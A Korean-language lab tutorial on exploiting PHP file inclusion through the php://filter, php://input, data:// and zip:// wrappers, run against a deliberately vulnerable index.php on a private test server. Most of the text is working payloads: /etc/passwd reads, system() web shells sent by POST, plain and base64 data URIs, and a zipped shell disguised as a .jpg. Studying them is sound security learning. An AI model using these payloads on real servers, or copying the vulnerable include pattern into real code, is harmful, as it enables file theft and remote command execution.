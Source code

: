 # PHP wrapper

php는 다양한 [wrappers](https://www.php.net/manual/en/wrappers.php)를 지원한다.

그 중 php, zip, data를 이용하여 공격해보자.

| wrapper   | description                   |
| :---      | :---                          |
| php://    | Accessing various I/O streams |
| data://   | Data (RFC 2397)               |
| zip://    | Compression Streams           |

# **INDEX**

**1. [환경 구성](#환경-구성)**

**2. [php](#php)**

 - [filter](#filter)

 - [input](#input)

**3. [data](#data)**

**4. [zip](#zip)**


# **환경 구성**

실행 환경

| Type          | Version                   |
| :---          | :---                      |
| OS            | Ubuntu 20.04.3 LTS        |
| Architecture  | x86-64                    |
| IP            | 192.168.0.58              |
| apache2       | 2.4.41-4ubuntu3.10        |
| php           | 7.4                       |
| php-zip       | 2:7.4+75                  |

apache와 php를 설치하자.

```sh
root@ubuntu:~# apt -y install apache2 php
```

php wrapper에 대한 공격에 취약한 페이지(index.php)를 만들자.

```php
<?php
    if (empty($_GET['page'])) echo 'PHP wrapper';
    else include $_GET['page'];
?>
```


# **php**

## **filter**

php://filter/resource="file name"을 통해 서버의 로컬 파일을 읽을 수 있다.

    http://192.168.0.58/index.php?page=php://filter/resource=/etc/passwd

파일의 출력 결과를 base64나 rot13으로 문자열을 변환하여 읽을 수 있다.

    http://192.168.0.58/index.php?page=php://filter/convert.base64-encode/resource=/etc/passwd

    http://192.168.0.58/index.php?page=php://filter/string.rot13/resource=/etc/passwd


취약한 페이지가 다음과 같다면 NULL(%00)을 붙혀서 php가 아닌 다른 파일을 읽을 수 있었지만,

```php
include $_GET['page']."php";
```

[php 5.3.4 Release](https://www.php.net/releases/5_3_4.php)부터는 NULL을 넣어도 우회할 수 없게 되었다.

## **input**

php://input을 이용하여 php 함수를 실행시킬 수 있으며, POST 방식으로 데이터를 넣어주어야 한다.

php://input을 사용하기 위해서는 php.ini의 allow_url_include가 On로 되어 있어야 한다.

    curl -X POST --data "<?php system(\$_GET['cmd']); ?>" "http://192.168.0.58/index.php?page=php://input&cmd=id"


# **data**

data wrapper를 사용하기 위해서는 php.ini의 allow_url_include가 On로 되어 있어야 한다.

data://text/plain,"문자열"을 통해 html문서를 출력할 수 있지만

php 함수를 통해 운영체제의 명령어를 실행시킬 수 있다.

    http://192.168.0.58/index.php?page=data://text/plain,<?php system($_GET['cmd']);?>&cmd=id

php 데이터를 base64로 인코딩하여 실행시킬 수도 있다.

    http://192.168.0.58/index.php?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7Pz4=&cmd=id

# **zip**

zip wrapper를 사용하기 위해서 추가적인 패키지를 설치하자.

```sh
root@ubuntu:~# apt -y install php-zip
```

패키지가 설치되었다면 php.ini에서 extension=zip.so가 활성화되어 있어야 한다.

zip wrapper로 압축파일 속 파일을 실행시킬 수 있는데, 그러기 위한 디렉토리 쓰기 권한이 있어야 한다.

apache2의 계정(www-data)이 압축을 풀 디렉토리의 권한을 주자.

```sh
root@ubuntu:~# chown www-data:www-data /var/www/html
```

압축파일에 넣을 php를 작성하자.

```php
<?php system($_GET['cmd']);?>
```

해당 파일을 압축하고 shell.php를 지워버리자.

```sh
root@ubuntu:/var/www/html# zip shell.zip shell.php
root@ubuntu:/var/www/html# rm -rf shell.php
```

이후 zip://"zip file name"#"file name"을 통해 zip안의 파일을 실행시킬 수 있다.

    http://192.168.0.58/index.php?page=zip://shell.zip%23shell.php&cmd=id

파일의 확장자를 변경해도 상관없다.

```sh
root@ubuntu:/var/www/html# mv shell.zip shell.jpg
```

    http://192.168.0.58/index.php?page=zip://shell.jpg%23shell.php&cmd=id
